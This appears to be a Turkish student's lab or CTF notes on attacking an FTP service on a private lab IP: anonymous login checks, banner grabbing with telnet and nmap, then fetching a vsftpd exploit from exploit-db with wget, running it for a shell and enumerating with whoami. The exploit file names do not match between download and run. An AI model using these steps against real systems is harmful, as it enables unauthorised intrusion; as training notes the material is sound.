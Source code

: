 #Güvenli ssh ile birlikte olan ftpnin ismi: sftp => secure fite transfer protocol

eğer ftp açık ise 21/tcp 

FTP'ye anonim giriş izni olup olmadığını kontrol et.
ftp 10.10.249.23 komutunu kullanarak bağlanmayı dene.
Kullanıcı adı olarak anonymous, parola olarak boş bırakmayı veya guest yazmayı dene.

Yükleme/İndirme: Eğer giriş yapabilirsen, ls komutuyla dizinleri listeleyebilir ve dosya yükleme/indirme işlemleri yapabilirsin.
Banner Analizi: FTP sunucusunun versiyonunu öğrenmek için telnet 10.10.249.23 21 veya nmap --script ftp-anon,ftp-bounce -p 21 10.10.249.23 kullan.
Exploit Arama: Banner bilgisiyle (örneğin, "vsftpd 2.3.4") arama yaparak bu sürümle ilgili bilinen bir güvenlik açığı olup olmadığını araştır.
Örneğin, "vsftpd 2.3.4 exploit" gibi.


eğer exploit bulursak 
wget https://www.exploit-db.com/raw/49719 -O vsftpd_some_exploit.py

target_ip = "10.10.249.23"
target_port = 21

bunlarıda ayarla

pip install -r requirements.txt


pip install requests

python3 vsftpd_234_exploit.py 10.10.249.23 21


Eğer shell aldıysan, id, whoami, ls gibi komutlarla sistemde neler yapabileceğini görebilirsin.


